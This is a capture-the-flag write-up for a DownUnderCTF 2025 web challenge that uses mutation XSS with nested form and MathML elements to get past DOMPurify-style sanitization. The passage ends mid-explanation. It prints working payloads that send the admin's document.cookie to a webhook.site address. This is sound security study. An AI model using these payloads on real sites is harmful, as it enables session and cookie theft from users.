


Github Repo with official writeups: DownUnderCTF 2025
Description
Just an XSS. What more is there to it?
Category: web
Difficulty: easy
Author: ssparrow
Open the web app through the browser. We can see this is like a XSS tester.

According to the hint provided in the page, the flag is located at document.cookie. Even if we were able to find an XSS payload that executes alert('document.cookie') we would get our cookies, meaning that we would have an self-XSS.
In order to escalate this vulnerability and get the administrator’s cookie we will leverage the report page utility. Specifically, we can use something like this.
<img src=1 onerror="location.href='https://webhook.site/<id>/?c=' + document.cookie">
Now the administrator by opening the report will automatically execute a GET request to our webhook, along with the document.cookie parameter, which contains the flag.
Next step is to bypass the sanitization.
The title of the challenge is mutant, so maybe it probably has to do with Mutation XSS. By searching, a couple of sources seems interesting.
Important things to keep from these are:
- The typical usage of DOMPurify makes the HTML markup to be parsed twice.
- HTML specification has a quirk, making it possible to create nested
<form>elements. However, on reparsing, the second<form>will be gone. mglyphandmalignmarkare special elements in the HTML spec in a way that they are in MathML namespace if they are a direct child of MathML text integration point even though all other tags are in HTML namespace by default.- Using all of the above, we can create a markup that has two
<form>elements andmglyphelement that is initially in HTML namespace, but on reparsing it is in MathML namespace, making the subsequent style tag to be parsed differently and leading to XSS.
<form><math><mtext></form><form><mglyph><style></math><img src=1 onerror="location.href='https://webhook.site/3c4bd2f7-ceb6-411d-a465-f97ebac6d1c0/?c=' + document.cookie">
Compiles to this.
<html form>
<math math>
<math mtext>
<math mglyph>
<math style>
<math math>
<html img src=1 onerror="location.href='https://webhook.site/3c4bd2f7-ceb6-411d-a465-f97ebac6d1c0/?c=' + document.cookie"
The <form> tag is gone and the <style> which was on HTML namespace is now on MathML namespace. Then <mglyph> under <mtext> is now on mathspace and therefore identifies <style> as tag and not as text.
The problem is that any tag with length 6 or 8 characters is removed. <mglyph> has 6 characters, so we need to use the other tag that is an exception to the HTML rules, <malignmark>
